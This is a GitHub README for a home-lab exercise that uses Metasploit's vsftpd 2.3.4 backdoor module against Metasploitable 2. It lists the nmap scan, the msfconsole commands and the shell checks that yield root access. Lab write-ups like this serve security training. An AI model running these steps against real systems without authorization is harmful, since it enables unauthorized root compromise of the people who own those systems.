





# Metasploit Exploitation Lab: vsftpd 2.3.4 Backdoor

## 🔍 Overview

This project demonstrates the exploitation of a known vulnerability in the vsftpd 2.3.4 service running on Metasploitable 2 using the Metasploit Framework. It was conducted in a safe, isolated home lab environment and documents the step-by-step process of scanning, exploiting, and gaining a remote shell.

## 🛠️ Tools Used

- VMware Workstation (for virtual lab setup)
- Kali Linux (attacker machine)
- Metasploitable 2 (target machine)
- Metasploit Framework
- Nmap (network scanning tool)

## ⚙️ Lab Setup

- **Kali** and **Metasploitable** were configured on the same **host-only network** in VMware.
- Metasploitable's IP was discovered using `ifconfig` inside the VM.

## 📸 Screenshots

### Step 1: Identified target IP address using `ifconfig`


### Step 2: Scanned with `nmap` to verify port 21


### Step 3: Launched Metasploit and searched for `vsftpd` exploit
  


### Step 4: Set RHOSTS and ran the exploit


### Step 5: Verified shell access with `whoami`, `id`, `uname -a`


## 🧪 Exploitation Steps

1. Identify target IP with `ifconfig` on Metasploitable.
2. Run a service scan from Kali:
   ```bash
   nmap -sV -p 21 <target-ip>
   ```
3. Launch Metasploit:
   ```bash
   msfconsole
   search vsftpd
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS <target-ip>
   run
   ```
4. Confirm shell session:
   ```bash
   whoami
   uname -a
   id
   ```

## ✅ Result

- The exploit was successful, opening a root shell on Metasploitable.
- Demonstrates knowledge of offensive security tools and penetration testing methodology.

## 📄 Report

A full lab write-up is included in the file below:

- [`Metasploit_Exploitation_Lab_Report.pdf`](Metasploit_Exploitation_Lab_Report.pdf)

## 🔐 Disclaimer

This lab was conducted in a **controlled local environment** for **educational purposes only**. Never attempt to exploit systems you do not own or have permission to test.

---

© 2025 Kevin Jared Goates
